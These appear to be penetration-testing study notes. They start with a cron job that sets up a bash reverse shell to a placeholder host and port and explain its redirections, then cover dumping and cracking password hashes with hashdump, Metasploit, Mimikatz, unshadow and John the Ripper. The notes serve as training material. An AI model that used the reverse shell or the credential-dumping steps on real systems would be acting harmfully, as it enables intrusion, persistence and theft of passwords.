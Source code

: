 ```bash
echo "* * * * * /bin/bash -c 'bash -i >& /dev/tcp/<hostIP>/<port> 0>&1'" > cron ;
crontab -i cron ;
crontab -l
```
- **`>&`**: This redirects both the standard output (`stdout`, file descriptor `1`) and the standard error (`stderr`, file descriptor `2`) to the specified location. In this case, the location is `/dev/tcp/<hostIP>/<port>`.
- **`0>&1`**: This redirects the standard input (`stdin`, file descriptor `0`) to the same destination as the standard output, which is the TCP connection.

---

# Dumping_and_Cracking_Hashes

## Windows Information
- Accounts stored in the SAM (Security Accounts Manager)
	- windows kernel locks database file while running
	- file encrypted with syskey
- Authentication facilitated by the LSA (Local Security Authority)
- hashes
	- LN : before Vista
	- NTLM : Vista onward
		- md4

## Linux Information
- password stored in `/etc/shadow` : only root should have access
-  `username : password : last_changed : min : max : warn : inactive : expire : reserved` : format of shadow file
- password
	- `!` or `!!` → Account is locked.
	- `*` → Account is disabled.
	- Empty → No password is set.
- hashes
	- $1 : MD5
	- $2 : Blowfish
	- $5 : SHA-256
	- $6 : SHA-512

## Dumping
- meterpreter - hashdump
	1. `hashdump` : dumps the hashes, requires privileged account
- MSF
	- `use post/linux/gather/hashdump` : grabs and formats "unshadowed"
- Mimikatz
## Cracking
- Unshadow file to cleanup "shadow" file for John.
	- `unshadow [path to passwd] [path to shadow]`
- Converting Files to crack
	- zip2john
	- rar2john
	- ssh2john
- John The Ripper
	- `john [options] password-files` : usage
	- `--list=formats` : shows available formats
	- `--format=NT` : specify format/hash type
		- NT
		- sha512crypt
	- `--wordlist=/usr/share/rockyou.txt` : specify wordlist
	- `john --format=sha512crypt --wordlist=/usr/share/wordlists/rockyou.txt hashes.txt`